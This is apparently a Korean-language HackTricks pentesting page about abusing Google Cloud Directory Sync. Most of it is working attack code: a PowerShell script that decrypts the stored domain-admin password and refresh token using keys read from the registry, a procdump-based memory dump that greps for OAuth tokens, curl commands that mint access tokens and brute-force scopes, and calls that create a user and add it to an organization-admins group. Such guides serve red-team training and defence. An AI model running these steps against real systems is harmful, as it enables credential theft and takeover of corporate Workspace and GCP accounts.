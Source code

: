 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이 도구는 **활성 디렉토리 사용자 및 그룹을 Workspace에 동기화하는 데 사용할 수 있는 도구**입니다 (이 글을 작성할 당시에는 그 반대는 아닙니다).

이 도구는 **Workspace 슈퍼유저 및 권한이 있는 AD 사용자**의 **자격 증명**이 필요하기 때문에 흥미롭습니다. 따라서 사용자 동기화를 위해 가끔 도메인 서버 내에서 찾을 수 있을 것입니다.

{% hint style="info" %}
**`config-manager.exe`** 바이너리에 대해 **MitM**을 수행하려면 `config.manager.vmoptions` 파일에 다음 줄을 추가하세요: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)가 **GCDS**를 감지하고 구성에 대한 정보를 얻으며 **심지어 비밀번호와 암호화된 자격 증명**을 확인할 수 있다는 점에 유의하세요.
{% endhint %}

또한 GCDS는 AD에서 Workspace로 비밀번호를 동기화하지 않습니다. 만약 무언가가 있다면, 새로 생성된 사용자에 대해 Workspace에서 무작위 비밀번호를 생성할 뿐입니다. 다음 이미지에서 볼 수 있습니다:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

바이너리 `config-manager.exe` (GUI가 있는 주요 GCDS 바이너리)는 기본적으로 **`C:\Program Files\Google Cloud Directory Sync`** 폴더의 **`Untitled-1.xml`** 파일에 구성된 Active Directory 자격 증명, 새로 고침 토큰 및 액세스를 저장합니다. 그러나 사용자 `Documents` 또는 **다른 폴더**에 저장될 수도 있습니다.

게다가 레지스트리 **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`**의 **`open.recent`** 키에는 최근에 열린 모든 구성 파일(xml)의 경로가 포함되어 있습니다. 따라서 **이를 확인하여 찾을 수 있습니다**.

파일 내에서 가장 흥미로운 정보는 다음과 같습니다:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
사용자의 **refresh** **token**과 **password**는 **AES CBC**를 사용하여 무작위로 생성된 키와 IV로 **암호화**되며, **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`**에 저장됩니다 (여기서 **`prefs`** Java 라이브러리는 기본 설정을 저장합니다). 문자열 키 **`/Encryption/Policy/V2.iv`**와 **`/Encryption/Policy/V2.key`**는 base64로 저장됩니다.

<details>

<summary>refresh token과 password를 복호화하는 Powershell 스크립트</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
이 정보를 확인하는 방법은 **`C:\Program Files\Google Cloud Directory Sync`**의 **`DirSync.jar`** 자바 코드를 확인하고 `exportkeys` 문자열을 검색하는 것입니다 (이는 바이너리 **`upgrade-config.exe`**가 키를 덤프하기 위해 기대하는 CLI 매개변수입니다).
{% endhint %}

파워셸 스크립트를 사용하는 대신, 매개변수 `-exportKeys`와 함께 바이너리 **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`**를 사용하여 레지스트리에서 **Key**와 **IV**를 헥사로 가져온 다음, AES/CBC와 해당 키 및 IV를 사용하여 정보를 복호화할 수 있습니다.

### GCDS - 메모리에서 토큰 덤프하기

GCPW와 마찬가지로, `config-manager.exe` 프로세스의 메모리를 덤프할 수 있습니다 (이것은 GCDS의 GUI가 있는 주요 바이너리의 이름입니다) 그리고 이미 생성된 경우 새로 고침 및 액세스 토큰을 찾을 수 있습니다.\
AD에 구성된 자격 증명도 찾을 수 있을 것입니다.

<details>

<summary>config-manager.exe 프로세스 덤프 및 토큰 검색</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - 리프레시 토큰으로 액세스 토큰 생성

리프레시 토큰을 사용하여 다음 명령에 지정된 클라이언트 ID와 클라이언트 비밀을 사용하여 액세스 토큰을 생성할 수 있습니다:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
리프레시 토큰이 있더라도, 액세스 토큰을 생성하는 애플리케이션에서 지원하는 **스코프만 요청할 수 있기 때문에** 액세스 토큰에 대한 스코프를 요청하는 것은 불가능합니다.

또한, 리프레시 토큰은 모든 애플리케이션에서 유효하지 않습니다.
{% endhint %}

기본적으로 GCSD는 사용자가 모든 가능한 OAuth 스코프에 접근할 수 없으므로, 다음 스크립트를 사용하여 `refresh_token`으로 `access_token`을 생성하는 데 사용할 수 있는 스코프를 찾을 수 있습니다:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

그리고 이것은 내가 작성할 당시 받은 출력입니다:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### 사용자 생성 및 `gcp-organization-admins` 그룹에 추가하여 GCP에서 권한 상승 시도
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
새 사용자에게 Super Amin 역할을 부여할 수 없습니다. **리프레시 토큰에 필요한 권한을 부여할 수 있는 충분한 범위가 없습니다.**
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

